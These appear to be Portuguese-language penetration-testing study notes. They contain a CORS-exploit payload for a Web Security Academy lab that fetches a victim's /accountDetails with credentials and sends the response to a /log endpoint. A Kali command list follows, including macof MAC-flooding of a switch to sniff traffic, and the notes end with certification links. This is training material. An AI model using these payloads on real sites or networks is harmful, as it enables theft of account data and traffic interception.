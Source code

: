 ```
       }
   }
</script>
</body>
</html>
```
<html>
<body>
<script>
   var xhrequest = new XMLHttpRequest();
   // Preencha com a URL do seu laboratorio aqui:
   var url = "https://0abe00ef04a17ad3c0102ceb00270080.web-security-academy.net"

   xhrequest.open('GET', url + "/accountDetails", true);
   xhrequest.withCredentials = true;
   xhrequest.send(null)

   xhrequest.onreadystatechange = function() {
       if (xhrequest.readyState == XMLHttpRequest.DONE){
           fetch("/log?key=" + xhrequest.responseText)
       }
   }
</script>
</body>
</html>

## Kali-Linux 
https://github.com/wwong99/pentest-notes/blob/master/oscp_resources/OSCP-Survival-Guide.md#kali-linux
```
$ macof -i eth0     => O comando macof, se refere a overflow de endereços mac. É preciso informar em que interface ( -i) esse ataque será realizado. No nosso caso, temos a eth0, a placa de rede que está conectada ao switch no programa de emulação. Ao dar enter, ele começará a mandar uma infinidade de endereços para o switch, a fim de lotar a memória e fazer com que ele trabalhe como um switch, podendo assim pegarmos informações de pacotes com o wireshark
$ arp -a            => Ver quais endereços MAC estão salvos para serem usados pelo ARP
$ `netstat -lntp`       => Show active internet connections
$ netstat -antp |grep apache                    => Verify a service is running and listening
$ md5sum <file>     => Verifica a integridade um arquivo transferido pela rede (ex: via Netcat TCP/UDP), gera um códido hash, se esse código hash no remetente e no destinatário forem iguais, então a transferência deu certo
$ netdiscover -i eth0
```

[[Anonimato na rede]]
## Certificações

https://www.comptia.org/pt/certificacoes/security => Certificado introdutório, antes de fazer o CEH ou OSCP
https://www.offensive-security.com/pwk-oscp/
https://www.eccouncil.org/programs/certified-ethical-hacker-ceh/
https://www.eccouncil.org/programs/licensed-penetration-tester-lpt-master/
https://alpinesecurity.com/training/catalog/  ==> Para se preparar para o LPT
https://www.cisco.com/c/en/us/training-events/training-certifications/certifications/associate/ccna.html
https://www.offensive-security.com/web200-oswa/
https://solyd.com.br/treinamentos/pentest-profissional-v2022/
